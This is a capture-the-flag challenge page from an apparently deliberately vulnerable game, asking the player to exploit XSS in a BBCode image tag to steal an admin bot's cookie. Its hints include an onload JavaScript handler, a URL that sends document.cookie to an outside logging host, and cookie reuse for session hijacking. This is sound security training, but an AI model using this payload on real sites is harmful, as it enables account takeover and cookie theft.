 # XSS/CSRF Challenge 4

----------------------

Hey friend,

I have a new concern I'm hoping you can help me with.

I had a user recently complain to me that his account got hacked. Apparently the hacker found something in my BBCode parser he was able to exploit to do an XSS attack and steal this user's cookie, then login as him.

Can you see if you can duplicate that attack?

Just like the previous challenge, I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game. To trigger it, just go to Trigger Admin Browser in the navigation. See if you can steal that account's cookies!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   BBCode allows you to embed an image like so: ```[img]http://url.com/image.jpg[/img]```
   
   Play around with that.
</details>

<details> 
  <summary>Click for hint 2</summary>
   Try breaking the BBCode image tag by inserting other characters (besides the url) inside of it. Use chrome inspector or view-source on "My Profile" to see what your BBCode input looks like when it's translated into html.
</details>

<details> 
  <summary>Click for hint 3</summary>
   Did you know you can execute javascript when an image loads? It's simple! All you have to do is use the onLoad attribute, like so:
   
   ```
   <img src="logo.png" onload="alert(1)">
   ```
   
</details>

<details> 
  <summary>Click for hint 4</summary>
   http://requestb.in/ is a neat site for testing webhooks. Cookie stealing is kind of like a webhook. If you were somehow able to get javascript execution, you could potentially change the SRC of the image to something like this:
   
   ```
   http://requestb.in/1fj9x6o1?c='+document.cookie
   ```
   
   And then review the cookie (passed as a GET parameter) on requestb.in!
</details>

<details> 
  <summary>Click for hint 5</summary>
   While you can edit cookies with plain javascript, you can also cheat and use a browser extension like [this one](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en).
</details>




